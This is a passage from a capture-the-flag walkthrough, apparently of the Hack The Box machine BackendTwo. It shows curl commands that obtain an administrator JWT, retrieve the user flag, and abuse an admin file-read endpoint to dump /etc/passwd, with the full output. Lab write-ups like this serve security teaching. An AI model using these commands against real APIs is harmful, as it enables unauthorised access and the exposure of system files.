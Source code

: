 Reauthenticate to obtain an administrator JWT.

```bash
$ curl -s -X 'POST' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=tgihf@backendtwo.htb&password=blah' http://10.129.227.139/api/v1/user/login | jq
{
  "access_token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjYyMjU3NjgxLCJpYXQiOjE2NjE1NjY0ODEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiOGMyODk2MDMtN2JhNS00ZGNjLTlmN2ItNTBjN2EyNDg5ODRiIn0.PI_NGiM1QT17mdkAG9m0dJFpPp5tTAuBgAxnzG1dNGk",
  "token_type": "bearer"
}
```

Use the administrator JWT to get the user flag from `/api/v1/admin/get_user_flag`.

```bash
$ curl -s -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjYyMjU3NjgxLCJpYXQiOjE2NjE1NjY0ODEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiOGMyODk2MDMtN2JhNS00ZGNjLTlmN2ItNTBjN2EyNDg5ODRiIn0.PI_NGiM1QT17mdkAG9m0dJFpPp5tTAuBgAxnzG1dNGk' http://10.129.227.139/api/v1/admin/get_user_flag
{"file":"..."}
```

---

## Leaking the API Source Code

With administrative access, it is possible to interact with the file read and write endpoints. Leveraging the file read endpoint to read `/etc/passwd` indicates the only interactive user is `htb`.

```bash
$ filename=$(echo -n '/etc/passwd' | base64 -w 0) curl -s -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjYyMjU3NjgxLCJpYXQiOjE2NjE1NjY0ODEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiOGMyODk2MDMtN2JhNS00ZGNjLTlmN2ItNTBjN2EyNDg5ODRiIn0.PI_NGiM1QT17mdkAG9m0dJFpPp5tTAuBgAxnzG1dNGk' http://10.129.227.139/api/v1/admin/file/$filename= | jq -r '.file'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
```